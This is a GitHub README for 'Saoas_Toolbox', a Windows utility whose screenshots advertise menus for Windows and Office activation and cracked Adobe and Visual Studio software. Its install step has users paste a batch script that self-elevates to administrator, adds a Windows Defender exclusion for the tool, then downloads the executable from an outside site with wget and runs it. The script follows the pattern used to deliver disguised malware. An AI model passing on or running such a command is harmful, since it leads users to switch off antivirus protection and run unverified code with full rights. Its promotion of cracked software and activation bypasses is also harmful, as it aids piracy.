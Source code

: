 # Saoas_Toolbox
 - **Installation:**
   - Run this Command in CMD!
```
@echo off
<!-- : --- Self-elevating.bat ---------------------------------------
whoami /groups | find "S-1-16-12288" > nul && goto :ELEVATED
echo Requesting administrative privileges...
set "ELEVATE_CMDLINE=cd /d "%cd%" & call "%~f0" %*"
cscript //nologo "%~f0?.wsf" //job:Elevate & exit /b

-->
<job id="Elevate"><script language="VBScript">
  Set objShell = CreateObject("Shell.Application")
  Set objWshShell = WScript.CreateObject("WScript.Shell")
  Set objWshProcessEnv = objWshShell.Environment("PROCESS")
  strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
  objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
</script></job>
:ELEVATED -----------------------------------------------------------

powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force
cd /d "%USERPROFILE%/Desktop/"
wget -q --show-progress --user-agent="chrome" --no-hsts "https://links.saoas.tv/Toolbox/Saoas_Toolbox.exe" -O Saoas_Toolbox.exe
Saoas_Toolbox.exe
```

#####


![Saoas Toolbox Main Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/dbcb3a42-5285-4d69-a21f-4c29c61c15ab)


![Saoas Tools Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/35a5f07d-590e-4024-a07e-ce7ffd9386c9)


![Runtimes Frameworks Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e2f3a1d4-667a-47fd-9825-7c7680c8448c)


![Programm files Menu 1of2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/02cebc8c-ff2a-49cd-ad3d-223c7ba1da4d)


![Programm files Menu 2of2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/5c9fb0e4-ce8c-4d40-8ce2-f7080b2bbec6)


![Internet Browsers Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ff08cc32-7aa2-4cc5-b77e-0b46f06c8e19)


![Windows Tweaks Main Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/50a8410f-17b8-41dd-98b8-357d9c5cb7fb)


![Windows Context Tweaks Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a9939d29-fdc8-4e0b-8144-880fe2d5b6b7)


![Windows Tweaks Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/8527b18e-cdcd-4f75-a34d-8e3ba888b51d)


![Windows Install and Activation Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/603613bd-ef29-4922-b022-03fe9e434128)


![Office Install and Activation Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/09265b54-eaf3-4a26-abc3-a56f5d415894)


![Cracked Files Main Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/50452122-a3b6-4cba-a072-1d4e1b7cc923)


![Cracked Adobe Files Menu 1 of 2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/af39f97a-e5df-4b6e-af73-09b9433ff631)


![Cracked Adobe Files Menu 2 of 2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a0e89f09-b7db-494f-b3d1-89a2be74b3c0)


![Cracked Microsoft Visual Studio Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/9716dbee-dd25-44ac-8673-507f6a518525)


![Microsoft Visual Studio 2022 Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/023292eb-3f3a-471d-8084-e3025add3547)


![Packet Managers Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ad735b1f-06d3-44b8-a374-77750a0d5ba0)
